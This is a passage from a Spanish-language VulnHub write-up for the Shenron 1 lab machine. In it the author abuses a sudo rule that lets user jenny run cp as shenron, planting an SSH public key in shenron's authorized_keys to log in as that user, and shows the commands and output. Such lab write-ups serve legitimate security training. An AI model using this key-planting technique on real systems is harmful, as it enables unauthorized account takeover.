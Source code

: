 ![Credenciales jenny](/images/writeups/vulnhub/shenron1/jennycredentials.png)

## Permisos sudo del usuario jenny

![sudo perms jenny](/images/writeups/vulnhub/shenron1/sudopermsjenny.png)

## ssh keygen

```bash
jenny@shenron:/home/jenny/.ssh$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/jenny/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/jenny/.ssh/id_rsa
Your public key has been saved in /home/jenny/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:FV/qn+RCeZAkHF4x5Rr8reJ/F4rucl5A/qCFA9d4DTk jenny@shenron
The key's randomart image is:
+---[RSA 3072]----+
|         .+o*oo  |
|         .+Eo*   |
|       . oo+O..  |
|        o.=. * . |
|        So == + .|
|          +.+= + |
|         .  +o* .|
|         . +.+  o|
|          *+.....|
+----[SHA256]-----+
```

### Copiado del archivo authorized_keys a /home/shenron/.ssh/ y conexión por ssh

```bash
jenny@shenron:~/.ssh$ cp id_rsa.pub authorized_keys
jenny@shenron:~/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub  known_hosts
jenny@shenron:~/.ssh$ sudo -u shenron /usr/bin/cp authorized_keys /home/shenron/.ssh/
```
```bash
jenny@shenron:~/.ssh$ ssh shenron@10.38.1.19

shenron@shenron:~$ whoami
shenron
```

## Flag del usuario shenron

```bash
shenron@shenron:~$ ls
local.txt
shenron@shenron:~$ cat local.txt 
098b****************************
```
